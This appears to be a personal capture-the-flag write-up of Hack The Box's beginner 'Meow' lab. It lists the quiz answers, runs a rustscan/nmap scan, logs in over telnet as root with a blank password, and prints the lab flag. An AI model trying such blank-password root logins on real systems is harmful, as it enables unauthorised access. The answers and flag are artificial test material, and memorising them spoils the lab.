 - - - 
created : 30-07-2025 

Tags : #veryeasy
- - - 
# Objective

Learn how to start.
# CONNECT

To attack the target machine, you must be on the same network.  
Connect to the Starting Point VPN using one of the following options.

It may take a minute for HTB to recognize your connection.  
If you don't see an update after 2-3 minutes, refresh the page.

I will use OpenVPN, so i download the config file, go in the same directory and execute the following command :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB]
└─$ sudo openvpn starting_point_mdn0x.ovpn 
[sudo] password di mdn0x: 
```

Now we can start our [Vulnerable Machine](../../../../3%20-%20Tags/Hacking%20Concepts/Vulnerable%20Machine.md).
# Task 1

What does the acronym VM stand for?

```bash
 Virtual Machine
```
# Task 2

What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or [Shell](../../../../3%20-%20Tags/Hacking%20Concepts/Shell.md).

```bash
 Terminal
```
# Task 3

What service do we use to form our VPN connection into HTB labs?

```bash
 Openvpn
```
# Task 4

What tool do we use to test our connection to the target with an ICMP echo request?

```bash
 Ping
```
# Task 5

What is the name of the most common tool for finding open ports on a target?

```bash
 Nmap
```
# Task 6

What service do we identify on port 23/tcp during our scans?
## Rustscan - Nmap

First we add the target IP to our /etc/hosts file, so we don't have to remember the [IP address](../../../../3%20-%20Tags/Hacking%20Concepts/IP%20address.md) every time :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 0/Meow]
└─$ sudo nano /etc/hosts
```

We add a line with the given IP and a name :

![Pasted image 20250730175807.png](../../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250730175807.png)

then we use [Rustscan](../../../../3%20-%20Tags/Hacking%20Tools/Rustscan.md) that will pass the result to [Nmap](../../../../3%20-%20Tags/Hacking%20Tools/Nmap.md) :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 0/Meow]
└─$ rustscan -a meow.htb -- -A  

Open 10.129.19.5:23

PORT   STATE SERVICE REASON         VERSION
23/tcp open  telnet  syn-ack ttl 63 Linux telnetd

```

So the answer is : 

```bash
 telnet
```
# Task 7

What username is able to log into the target over telnet with a blank password?

```bash
 root
```

# Submit Flag

Submit root flag.

## Telnet Access

We can access on telnet protocol as root without password and retrieve the [Flag](../../../../3%20-%20Tags/Hacking%20Concepts/Flag.md) :

```bash
┌──(mdn0x㉿mdn0xKali)-[~]
└─$ telnet meow.htb 23 -l root

root@Meow:~# cat flag.txt
 b40abdfe23665f766f9c61ecba8a4c19
```
